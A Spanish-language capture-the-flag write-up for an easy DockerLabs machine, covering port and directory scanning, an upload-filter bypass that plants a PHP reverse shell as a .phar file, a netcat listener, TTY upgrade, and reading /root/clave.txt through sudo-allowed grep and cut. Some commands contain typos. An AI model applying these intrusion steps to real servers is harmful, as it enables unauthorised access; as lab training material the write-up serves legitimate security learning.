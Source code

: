 ```yaml
---
title: DockerLabs - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | ElPinguinoDeMario | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/505dcb13-4f0c-4d3c-9a85-243319937411)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80-sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/a3b78674-c6ff-471a-8c2d-73efd12ec5c6)

# Exploración Web

Accedemos a la máquina y no vemos nada interesante a primera vista.

![image](https://github.com/user-attachments/assets/8e867cf8-4c54-46ae-82fe-37ce63c38252)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/1c7abed3-4cb1-4b91-9502-c2cb52735451)

Encontramos varios directorios interesantes. Entramos en `machines.php`, donde podemos subir archivos. En lugar de subir máquinas, subimos una reverse shell en PHP.

![image](https://github.com/user-attachments/assets/a0124837-926e-4e38-9af7-d4b601fcfe15)

## Reverse Shell

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![image](https://github.com/user-attachments/assets/7ba3c413-256e-48b2-b434-9fca77db2d73)

Sin embargo, solo permite archivos `.zip`. Tras investigar, descubrimos que acepta archivos `.phar`.

![image](https://github.com/user-attachments/assets/f7b85846-e2e9-4dff-b083-2c1b478de955)

Subimos el archivo `.phar`, que no está restringido, y accedemos a la reverse shell en la ruta `/uploads/`. 
- Para mas informacion visitar esta pagina [File Upload General Methodology](https://book.hacktricks.xyz/pentesting-web/file-upload).

![image](https://github.com/user-attachments/assets/c3c37cb1-9ba7-4c66-be51-31a72fe72f13)

La pagina no restringe la entrada de archivos `.phar`.

![image](https://github.com/user-attachments/assets/cd57b64d-5ae7-487b-814e-e38f8a675981)

Escuchamos en el puerto definido en el shell. 

![image](https://github.com/user-attachments/assets/2f29cb10-beea-47f2-a7a8-0f8733b18934)

```bash
nc lvnp 4444
```
Accedemos al archivo `shell.phar` desde la web, y ya estamos dentro.

![image](https://github.com/user-attachments/assets/b56d8709-69f1-4589-a5bf-565975ee2333)


### TTY ReverseShell

#### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
#### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

#### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

#### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

#### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

#Intrucion
Al ejecutar `sudo -l`, vemos que podemos ejecutar `cut` y `grep` como `root`. Si no sabemos cómo aprovechar esto, podemos recurrir a [GTFOBins](https://gtfobins.github.io/).

![image](https://github.com/user-attachments/assets/050429b9-46eb-4e55-b3d9-5a0a4dfaab65)

Al explorar el directorio `opt`, encontramos un archivo `nota.txt`.

![image](https://github.com/user-attachments/assets/7dfda6ac-8eab-481e-a071-f11b32abeca0)

La nota menciona que la clave de root está en `/root/clave.txt`. Podemos utilizar `grep` y `cut` para leer el contenido de ese archivo.

Con `grep`:

```bash
LFILE=/root/clave.txt
sudo grep '' $LFILE
```
![image](https://github.com/user-attachments/assets/5b324fbb-b64c-4a1b-aa5d-f1e4878f8684)

Obtenemos la clave.

Con `cut` :

```bash
LFILE=/root/clave.txt
sudo cut -d "" -f1 "$LFILE"
```

![image](https://github.com/user-attachments/assets/8ed6e903-1fc8-4882-a5e4-2a808f2ec181)

Probamos la clave y ya somos root.

![image](https://github.com/user-attachments/assets/a673a51c-421f-4b9b-aba6-58b912e14509)



